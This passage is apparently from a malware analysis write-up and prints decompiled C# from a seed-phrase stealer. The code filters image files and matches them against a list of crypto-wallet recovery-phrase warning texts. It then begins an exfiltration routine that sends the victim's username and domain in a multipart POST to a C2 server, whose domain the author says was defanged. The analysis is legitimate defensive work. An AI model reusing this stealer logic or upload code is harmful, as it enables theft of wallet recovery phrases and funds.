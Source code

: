 ```c#
// Token: 0x06000002 RID: 2 RVA: 0x0000230C File Offset: 0x0000050C
private static bool IsImage(string name)
{
    return name.EndsWith(".png", StringComparison.OrdinalIgnoreCase) || name.EndsWith(".jpg", StringComparison.OrdinalIgnoreCase) || name.EndsWith(".jpeg", StringComparison.OrdinalIgnoreCase);
}
```

The word list appears to all be related to crypto wallets and their seed phrases. It kind of baffles me that you would look for this in an image, rather than a text file. The list of keywords that are sought after is as follows:

```c#
// Token: 0x04000001 RID: 1
private static string[] wordlist2 = new string[]
{
	"if you have any problem with scanning the qr", "enable google authentication", "write down each word", "write down your secret phrase", "do not create a digital copy such as a screenshot", "write down or copy these words", "do not share your phrase to anyone", "you will be shown a secret phrase on the next screen", "your wallet generation seed is", "please save these 12 words",
	"write down this 12-word secret recovery", "Please write down the following words and keep them in a secure place", "Warning: Do not share these words with anyone. If lost, you might lose your funds", "Ensure you write these words in their order and store them offline", "These words are the key to recovering your wallet. Do not lose them", "If you lose access to your wallet, these words can be used for its recovery", "Do not store these words on your device or in an email. Use a piece of paper to note them down and keep it in a safe place", "Your seed phrase is the only way to restore your funds. Keep it private", "Never enter your seed phrase into any website or software you don't trust", "Avoid storing your seed phrase electronically to minimize hacking risks",
	"If someone gets access to your seed phrase, they have access to your funds", "Always double-check and verify your seed words before finalizing", "Lost seed phrases cannot be recovered by us or anyone else", "For added security, consider storing multiple physical copies of your seed phrase in different locations", "Never disclose your seed phrase, even to support or staff members", "Do a regular check to ensure you still have access to your seed phrase", "Using a passphrase in conjunction with your seed phrase can provide an extra layer of security", "Remember, your funds are as safe as your ability to keep your seed phrase secure", "It's your responsibility to ensure the confidentiality of your seed phrase"
};
```

The uploading functionality is rather simplistic, consisting of a HTTP POST to the C2 domain via a multi part form:

!!! note
	the domain is escaped manually to prevent it from being easily accessible, it is not how it appears in original decomp.

```c#
// Token: 0x06000004 RID: 4 RVA: 0x000023D0 File Offset: 0x000005D0
private static async Task<bool> UploadFile(string filename)
{
	try
	{
		string tempPath = Path.GetTempPath();
		string text = "Fotos";
		string text2 = Path.Combine(tempPath, text);
		if (!Directory.Exists(text2))
		{
			Directory.CreateDirectory(text2);
		}
		using (MultipartFormDataContent form = new MultipartFormDataContent())
		{
			form.Add(new StringContent("7b5ebd3d9e4d49d48cde63bab0a109d8"), "id");
			form.Add(new StringContent("Text"), "app");
			string text3 = Environment.UserName + " " + Environment.UserDomainName;
			form.Add(new StringContent(text3), "user");
			form.Add(new StringContent("fares"), "body");
```